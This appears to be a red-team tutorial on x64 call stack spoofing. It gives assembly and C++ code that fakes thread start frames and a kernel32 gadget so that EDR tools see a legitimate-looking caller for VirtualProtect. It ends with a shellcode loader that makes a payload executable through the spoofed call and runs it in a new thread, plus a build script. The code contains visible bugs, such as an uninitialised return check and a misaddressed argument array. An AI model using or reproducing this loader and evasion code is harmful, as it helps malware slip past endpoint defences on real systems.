


Stack Spoofing is a technique that manipulates the apparent call stack of a thread so that stack inspection shows a more legitimate-looking execution path than the real one.

Normally, if suspicious code calls `VirtualProtect`, telemetry might reveal something like:

```
VirtualProtect
    ↑
Private / unbacked memory
    ↑
Custom loader
    ↑
Unknown code
```

That can be suspicious because an EDR can inspect the call stack and see that VirtualProtect originated from memory that does not belong to a normal loaded module.



With stack spoofing, the goal is to make the apparent stack look more like:

```
VirtualProtect
    ↑
LegitimateModule.dll
    ↑
kernel32.dll
    ↑
ntdll.dll
```



> **Note**: Stack Spoofing is useful for disguising where a sensitive operation such as VirtualProtect appears to have originated, rather than hiding the operation itself.

`KERNELBASE!` on the call stack between `ntdll!` calls is an indicator of compromise. A useful tip is used it with indirect syscalls.

# Spoofing the Stack

Creating synthetic stack frames will be done using our "Spoof" function, which will be written in assembly. This function does the following steps:

1. Push "0" on the stack, which will terminate the stack unwinding.
2. Make space on the stack for "RtlUserThreadStart" Frame.
3. Push the Return Address "RtlUserThreadStart+0x21" on the stack.
4. Make space on the stack for "BaseThreadInitThunk" Frame.
5. Push the Return Address "BaseThreadInitThunk+0x14" on the stack.
6. Make space on the stack for our Gadget's Frame.
7. Push the Return Address to our gadget on the stack.

The following version code is an adaptation in cpp of [CallStackSpoofer (HulkOperator)](https://github.com/HulkOperator/CallStackSpoofer).

* `spoof.asm`

```asm
.code

STACK_INFO STRUCT
	pRtlUserThreadStart_RetAddr		DQ 1
	dwRtlUserThreadStart_Size		DQ 1

	pBaseThreadInitThunk_RedAddr	DQ 1
	dwBaseThreadInitThunk_Size		DQ 1

	pGadgetAddr						DQ 1
	dwGadget_Size					DQ 1

	pTargetFunction					DQ 1
	pRbx							DQ 1
	dwNumberOfArgs					DQ 1
	pArgs							DQ 1
STACK_INFO ENDS


Spoof PROC
	
	pop r15														; Top of the stack will have return address of the Function which has called this Spoof Function
																; When this Spoof function completes execution, we can use this value to resume the normal execution flow

	mov r13, rcx												; r13 now point to STACK_INFO struct

	;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
	;			Creating Synthetic Frames
	;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;

	push 0														; This will terminate the Stack Unwinding

	; Creating The First Thread Initialising Frame

	mov r10, [r13].STACK_INFO.dwRtlUserThreadStart_Size			; Size of RtlUserThreadStart
	sub rsp, r10
	mov r10, [r13].STACK_INFO.pRtlUserThreadStart_RetAddr
	push r10													; Pusing the Return Address to RtlUserThreadStart

	; Creating The Second Thread Initialising Frame

	mov r10, [r13].STACK_INFO.dwBaseThreadInitThunk_Size		; Size of BaseThreadInitThunk
	sub rsp, r10
	mov r10, [r13].STACK_INFO.pBaseThreadInitThunk_RedAddr
	push r10													; Pusing the Return Address to BaseThreadInitThunk

	; Creating the Gadget's Frame

	mov r10, [r13].STACK_INFO.dwGadget_Size						; Size of Gadget's Frame
	sub rsp, r10
	mov r10, [r13].STACK_INFO.pGadgetAddr	
	push r10													; Pushing the Return Address to Gadget's Address


	;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
	;			Configuring Arguments
	;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;

	; Configuring first 4 arguments in the registers

	lea r10, [r13].STACK_INFO.pArgs
	mov rcx, [r10]
	mov rdx, [r10 + 8]
	mov r8, [r10 + 16]
	mov r9, [r10 + 24]

	mov rbp,  [r13].STACK_INFO.dwNumberOfArgs
	sub rbp, 4

	; Looping to Configure Additional Arguments on the Stack
loop_start:
	cmp rbp, 0
	jle setup_rbx
	mov r11, [r10 + rbp*8]
	mov [rsp + 40 + rbp*8], r11
	dec rbp
	jmp loop_start

	;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
	;			Setting Up RBX
	;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;

	; Configure the Pointer to "restore" in rbx

setup_rbx:
	mov r10, restore
	mov [r13].STACK_INFO.pRbx, r10
	lea rbx, [r13].STACK_INFO.pRbx
	
	;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
	;			Executing the Target WinAPI
	;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;

	; JMP to the Target Function

	mov r10, [r13].STACK_INFO.pTargetFunction
	jmp r10


	;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
	;			Restoring the Stack
	;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;

	; Restoring the Stack to Original State (Before Spoof Function was called)

restore:
	add rsp, 24													; Reversing the effect of Pushing 3 return addresses

	mov r10, [r13].STACK_INFO.dwRtlUserThreadStart_Size
	add rsp, r10

	mov r10, [r13].STACK_INFO.dwBaseThreadInitThunk_Size
	add rsp, r10

	mov r10, [r13].STACK_INFO.dwGadget_Size
	add rsp, r10

	jmp r15

Spoof ENDP
end
```

* `StackSpoofer.cpp`

```cpp
#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <wincrypt.h>
#include <time.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")

#define MAX_LEN 500000

typedef UCHAR UBYTE;

typedef enum _UNWIND_OP_CODES {
	UWOP_PUSH_NONVOL,
	UWOP_ALLOC_LARGE,
	UWOP_ALLOC_SMALL,
	UWOP_SET_FPREG,
	UWOP_SAVE_NONVOL,
	UWOP_SAVE_NONVOL_FAR,
	UWOP_PUSH_MACHFRAME = 10
};

typedef union _UNWIND_CODE
{
	struct
	{
		UBYTE CodeOffset;
		UBYTE UnwindOp : 4;
		UBYTE OpInfo : 4;
	};
	USHORT FrameOffset;
} UNWIND_CODE, * PUNWIND_CODE;

typedef struct _UNWIND_INFO {
	UCHAR Version : 3;
	UCHAR Flags : 5;
	UCHAR SizeOfPrologue;
	UCHAR CountOfUnwindCodes;
	UCHAR FrameRegister : 4;
	UCHAR FrameRegisterOffset : 4;
	UNWIND_CODE UnwindCode[1];

	union {
		OPTIONAL ULONG ExceptionHandler;
		OPTIONAL ULONG FunctionEntry;
	};
	OPTIONAL ULONG ExceptionData[];

} UNWIND_INFO, * PUNWIND_INFO;

typedef struct _STACK_INFO {

	UINT64 pRtlUserThreadStart;
	UINT64 dwRtlUserThreadStartSize;

	UINT64 pBaseThreadInitThunk;
	UINT64 dwBaseThreadInitThunk;

	UINT64 pGadgetAddress;
	UINT64 dwGadgetSize;

	UINT64 pTargetFunction;
	UINT64 dwNumberOfArguments;
	UINT64 pEbx;
	PVOID pArgs;
}STACK_INFO, * PSTACK_INFO;

typedef struct _EXCEPTION_INFO {

	UINT64 hModule;
	UINT64 pExceptionDirectory;
	DWORD dwRuntimeFunctionCount;

}EXCEPTION_INFO, *PEXCEPTION_INFO;


extern "C" PVOID Spoof(PSTACK_INFO);

VOID RetExceptionAddress(PEXCEPTION_INFO pExceptionInfo) {

	UINT64 pImgNtHdr, hModule;
	PIMAGE_OPTIONAL_HEADER64 pImgOptHdr;

	hModule = pExceptionInfo->hModule;

	pImgNtHdr = hModule + ((PIMAGE_DOS_HEADER)hModule)->e_lfanew;
	pImgOptHdr = &((PIMAGE_NT_HEADERS64)pImgNtHdr)->OptionalHeader;

	pExceptionInfo->pExceptionDirectory = hModule + pImgOptHdr->DataDirectory[IMAGE_DIRECTORY_ENTRY_EXCEPTION].VirtualAddress;
	pExceptionInfo->dwRuntimeFunctionCount = pImgOptHdr->DataDirectory[IMAGE_DIRECTORY_ENTRY_EXCEPTION].Size / sizeof(RUNTIME_FUNCTION);

}

UINT64 RetStackSize(UINT64 hModule, UINT64 pFuncAddr) {

	EXCEPTION_INFO sExceptionInfo = { 0 };
	sExceptionInfo.hModule = hModule;

	RetExceptionAddress(&sExceptionInfo);

	PRUNTIME_FUNCTION pRuntimeFunction = (PRUNTIME_FUNCTION)sExceptionInfo.pExceptionDirectory;
	DWORD dwFuncOffset = pFuncAddr - hModule;
	PUNWIND_INFO pUnwindInfo;
	PUNWIND_CODE pUnwindCode;
	UINT64 dwStackSize = 0;
	

	// Loop Through RunTimeFunction structures until we find the structure for our target function
	for (int i = 0; i < sExceptionInfo.dwRuntimeFunctionCount; i++) {
		if (dwFuncOffset >= pRuntimeFunction->BeginAddress && dwFuncOffset <= pRuntimeFunction->EndAddress) {
			break;
		}

		pRuntimeFunction++;
	}

	// From the RunTimeFunction structure we need the offset to UnwindInfo structure

	pUnwindInfo = ((PUNWIND_INFO)(hModule + pRuntimeFunction->UnwindInfoAddress));

	// Loop Through the UnwindCodes 
	pUnwindCode = pUnwindInfo->UnwindCode; // UnwindCode Array

	for (int i = 0; i < pUnwindInfo->CountOfUnwindCodes; i++) {

		UBYTE bUnwindCode = pUnwindCode[i].UnwindOp;

		switch (bUnwindCode)
		{
		case UWOP_ALLOC_SMALL:
			dwStackSize += (pUnwindCode[i].OpInfo + 1) * 8;
			break;
		case UWOP_PUSH_NONVOL:
			if (pUnwindCode[i].OpInfo == 4)
				return 0;
			dwStackSize += 8;
			break;
		case UWOP_ALLOC_LARGE:
			if (pUnwindCode[i].OpInfo == 0) {
				dwStackSize += pUnwindCode[i + 1].FrameOffset * 8;
				i++;
			}
			else {

				dwStackSize += *(ULONG*)(&pUnwindCode[i + 1]);
				i += 2;

			}
			break;
		case UWOP_PUSH_MACHFRAME:
			if (pUnwindCode[i].OpInfo == 0)
				dwStackSize += 40;
			else
				dwStackSize += 48;
		case UWOP_SAVE_NONVOL:
			i++;
			break;
		case UWOP_SAVE_NONVOL_FAR:
			i += 2;
			break;
		default:
			break;
		}


	}

	return dwStackSize;

}


PVOID RetGadget(UINT64 hModule) {

	PVOID pGadget = NULL;
	int r = rand() % 2, count = 0;
	
	DWORD dwSize = ((PIMAGE_NT_HEADERS64)(hModule + ((PIMAGE_DOS_HEADER)hModule)->e_lfanew))->OptionalHeader.SizeOfImage;

	for (int i = 0; i < dwSize - 1; i++) {

		if (((PBYTE)hModule)[i] == 0xff && ((PBYTE)hModule)[i+1] == 0x23) {
			pGadget = (PVOID)(hModule + i);
			if (count >= r) {
				break;
			}
			count ++;
		}
	}
	return pGadget;
}

PVOID CallStackSpoof(UINT64 pTargetFunction, DWORD dwNumberOfArgs, ...) {

	srand((time(0)));
	va_list va_args;
	STACK_INFO sStackInfo = { 0 };
	UINT64 pGadget, pRtlUserThreadStart, pBaseThreadInitThunk;
	HMODULE pNtdll, pKernel32;

	pNtdll = GetModuleHandleA("ntdll");
	pKernel32 = GetModuleHandleA("kernel32");

	pGadget = (UINT64)RetGadget((UINT64)pKernel32);
	pRtlUserThreadStart = (UINT64)GetProcAddress(pNtdll, "RtlUserThreadStart");
	pBaseThreadInitThunk = (UINT64)GetProcAddress(pKernel32, "BaseThreadInitThunk");

	sStackInfo.pGadgetAddress = pGadget;
	sStackInfo.dwGadgetSize = RetStackSize((UINT64)pKernel32, pGadget);
	sStackInfo.pRtlUserThreadStart = pRtlUserThreadStart + 0x21;
	sStackInfo.dwRtlUserThreadStartSize = RetStackSize((UINT64)pNtdll, pRtlUserThreadStart);
	sStackInfo.pBaseThreadInitThunk = pBaseThreadInitThunk + 0x14;
	sStackInfo.dwBaseThreadInitThunk = RetStackSize((UINT64)pKernel32, pBaseThreadInitThunk);
	sStackInfo.pTargetFunction = pTargetFunction;

	if (dwNumberOfArgs <= 4)
		sStackInfo.dwNumberOfArguments = 4;
	else if (dwNumberOfArgs % 2 != 0)
		sStackInfo.dwNumberOfArguments = dwNumberOfArgs + 1;
	else
		sStackInfo.dwNumberOfArguments = dwNumberOfArgs;

	sStackInfo.pArgs = malloc(8 * sStackInfo.dwNumberOfArguments);

	va_start(va_args, dwNumberOfArgs);
	for (int i = 0; i < dwNumberOfArgs; i++) {

		(&sStackInfo.pArgs)[i] = (PVOID)va_arg(va_args, UINT64);

	}
	va_end(va_args);
	return Spoof(&sStackInfo);

}


unsigned char payload[] = {0x17, 0xd7, ...};


int main(int argc, char ** argv) {

    LPVOID pexec;
    HANDLE hThread;
    BOOL rv;
    DWORD oldprotect;
    int payload_len = sizeof(payload);
    getchar();

    pexec = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(pexec, payload, payload_len);

    LPVOID pVirtualProtect = GetProcAddress(GetModuleHandle("Kernel32.dll"), "VirtualProtect");
    //rv = VirtualProtect(pexec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    CallStackSpoof((UINT64)pVirtualProtect, 4, pexec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    if(rv){
        hThread = CreateThread(0,0, (LPTHREAD_START_ROUTINE)pexec, 0,0,0);
        WaitForSingleObject(hThread, -1);
    }
    CloseHandle(hThread);
    return 0;
}
```
* `compile.bat`

```bat
@ECHO OFF
ml64 /c /Fospoof.obj spoof.asm
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tp StackSpoofing.cpp /link /OUT:StackSpoofing.exe spoof.obj /SUBSYSTEM:CONSOLE /MACHINE:x64
del *.obj
```

# References:

* [https://hulkops.gitbook.io/blog/red-team/x64-call-stack-spoofing](https://hulkops.gitbook.io/blog/red-team/x64-call-stack-spoofing)